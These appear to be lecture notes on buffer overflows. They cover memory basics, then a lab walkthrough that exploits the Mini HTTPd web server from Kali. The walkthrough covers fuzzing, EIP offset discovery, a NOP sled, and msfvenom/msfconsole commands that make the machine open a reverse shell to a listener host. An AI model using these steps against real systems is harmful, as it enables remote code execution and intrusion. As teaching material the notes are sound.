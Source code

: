 # Buffer Overflow

## Lecture Notes: Buffer Overflow Vulnerabilities

### Program Memory

* when you assign variables in a program, there are spaces in memory allocated for those values
* if you're saving a string (which is an array of characters) that is a password, it is saved character-by-character in the memory
  * additional variables would be most likely saved in the next space in memory
  * if the inputted string is longer than the space allocated it, it will keep overwriting the additional variables
  * ex. if the next variable is a boolean value determining whether or not the inputted string and the saved password match and the next variable is overwritten with a 1, then the authentication is bypassed

### Buffer Overflow

* what is a buffer?
  * memory used to store data temporarily while it's being moved from one area to another
* what is buffer overflow?
  * when a program attempts to put more data in a buffer than it can hold or when a program attempts to put data in a memory area past a buffer
* heap buffer overflow
  * heap: region of a process's memory that stores dynamic variables that are globally accessible
  * memory allocated must be cleared after it's allocated
* stack buffer overflow
  * stack: region of a process's memory that stores local variables used inside a function
  * memory allocated is cleared after the function runs
* potential security impacts of buffer overflow
  * availability: system crashes
  * loss of access control; a program executing code outside of its typical scope
  * follow-on actions: buffer overflows resulting in arbitrary code execution, giving the attacker additional access/capabilities
* the Morris Worm used a buffer overflow

## Lecture Notes: Buffer Overflow Creation with Fuzzing

{% embed url="https://www.exploit-db.com/exploits/26739" %}

### Setup

* Windows 10 server with vulnerable Mini HTTPd application
  * in minihttpd.ini:
    * change EXEC, LOGFILE, WEBROOT, and WEBCGI&#x20;
    * paths to where the minihttpd directory is stored
* Windows Defender Firewall -> Advanced Settings -> Inbound Rules -> New Rule -> Port -> TCP / 80
* Kali host

### Windows: Starting HTTPD

```
# open administrator CMD in C:\[file path]\minihttpd\
install.bat
netstat -p tcp -an
ipconfig
```

### Kali: Initial Overflow

<figure><img src="../.gitbook/assets/{2D963951-6D93-4C9E-8105-C1D31760A66D}.png" alt=""><figcaption></figcaption></figure>

```
searchsploit -m 26739.py
nano 26739.py
```

* change IPs
* change payload to payload = "A" \* 10000 and run
  * this will crash the web server, and the log file will show a GET request coming from the Kali host with 10000 As
  * can restart the web server in Services (Httpd Service)
  * this is what indicates that we have a buffer overflow problem

### Windows: Debugging

* open Immunity Debugger as admin
  * File -> Open -> minihttpd.exe
  * allows us to control each step in the process of a program running in memory
    * can inspect what it's doing, what it has in memory, etc.
  * application is paused when loaded because the debugger has control, not the OS
* hit play button twice- application will switch to running
* run exploit from Kali again
* should switch back to paused
* EIP in Registers window (instruction pointer, which tells the CPU what the next instruction to execute is) has been overwritten with As (41414141)
  * however, we don't know which 4 As of our 10000 were the ones replacing the EIP

### Kali: MSFPattern

```
msf-pattern_create -l 10000
# copy into payload
python2 exp1.py
msf-pattern_offset -q 33774732
```

* can now see what value the EIP is overwritten at
  * can test if this is correct by having all values up to the EIP be A ("A" \* 5348), have the EIP be B ("B" \* 4), and all values after the EIP be C ("C" \* 4864)
  * EIP should now be 42424242
  * stack becomes all Cs- means we have control over the memory
* add in "nops" (no operation) after EIP- "\x90" \* 16, then remove 16 from the C padding
  * when the jump is made, the jump is going to the nops, so then the execution continues to the exploit without anything else running
* go back to debugger
  * "e" -> KERNEL32 -> Ctrl + F for CALL ESI -> F2 (will highlight address and add a break point, where the application will stop)
* change EIP value to struct.pack("\<I", 0x76BB017D)
  * \<I denotes little endian
  * 0x\[hex] is the CALL ESI address
  * will put the address of the CALL ESI address as the EIP value, so clicking on EIP will bring you to CALL ESI in KERNEL32, which is a break point
* hit F7 (next executed) on CALL ESI- we will end up at the Cs (not at the NOPs, where it should be)
* break points are NOT maintained- must re-add after every execution and restart
* e -> ntdll -> Ctrl + F for CALL ESP
  * add break point
  * run exploit
  * F7 on CALL ESP will now bring us to the NOPs

<figure><img src="../.gitbook/assets/{47D53753-1C22-4D4A-9252-E179BCDAAA05}.png" alt=""><figcaption><p>ESI value determined with msf-pattern</p></figcaption></figure>

<figure><img src="../.gitbook/assets/{9AA662FD-0F91-49BF-A951-14C122C44369}.png" alt=""><figcaption><p>offset determined by msf-pattern</p></figcaption></figure>

<figure><img src="../.gitbook/assets/{DB6A9389-11F0-43EA-80C4-CDAEDDD7F109}.png" alt=""><figcaption><p>CALL ESI address in KERNEL32 module</p></figcaption></figure>

<figure><img src="../.gitbook/assets/{58FF77B2-03C5-4816-A953-7C51D8188807}.png" alt=""><figcaption><p>EIP has now been pointed to CALL ESI, which is a breakpoint</p></figcaption></figure>

<figure><img src="../.gitbook/assets/{A47096EA-2AAF-477F-B37E-FE3F2AD8F383}.png" alt=""><figcaption></figcaption></figure>

```
sudo msfconsole
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter_reverse_tcp
msf6 > set LHOST 192.168.8.133
msf6 > set LPORT 443
msf6 > msfvenom -p windows/shell/reverse_tcp LHOST=192.168.8.133 LPORT=443 -b "\x00\x0a\x0d\x20\x0b\x09\x0c" -a x86 --platform win -e x86/shikata_ga_nai -f c
run
# paste shellcode into exploit and change padding
```

* go back to debugger and hit F9- shell will now connect

<figure><img src="../.gitbook/assets/{C2740CE2-3A24-4110-9875-F926DAF56663}.png" alt=""><figcaption></figcaption></figure>

### Additional Notes

* Python socket syntax
  * socket.AF\_INET
    * address family IPv4
  * socket.SOCK\_STREAM
    * TCP stream
  * s.connect(("\[IP]", \[port]))
    * connecting to a remote IP and port
* Can use Burp Suite to see if the website is sanitizing/handling input properly by modifying requests
* every program is a number of functions running one after the other
  * the system will allocate a piece of memory called the "stack" to track the program execution
  * the stack is a data structure- first in, last out
  * the EXE just becomes a set of instructions in memory that the CPU executes
* buffer overflow manipulates the stack- the stack is overwritten with the As being sent
* registers are the smallest memory storage units, located in the CPU
* 00 is a null terminator (bad character)- truncates payload because interpreter will think it is the terminating character of the program
* little endian and big endian are ways that architecture (instructions that CPU uses to handle memory addresses)
  * Intel and AMD are both little endian-based
  * they read memory addresses backwards (ex. AA BB CC DD in big endian becomes DD CC BB AA in little endian)
  * network traffic is sent in big endian, but pretty much everything else is sent in little endian
* OS kernel has a mitigation technique to randomize addresses, which is why addresses are different across different systems (called ASLR- Address Space Layer Randomization)
  * Windows XP didn't have ASLR, which is why the original exploit for this only works for Windows XP
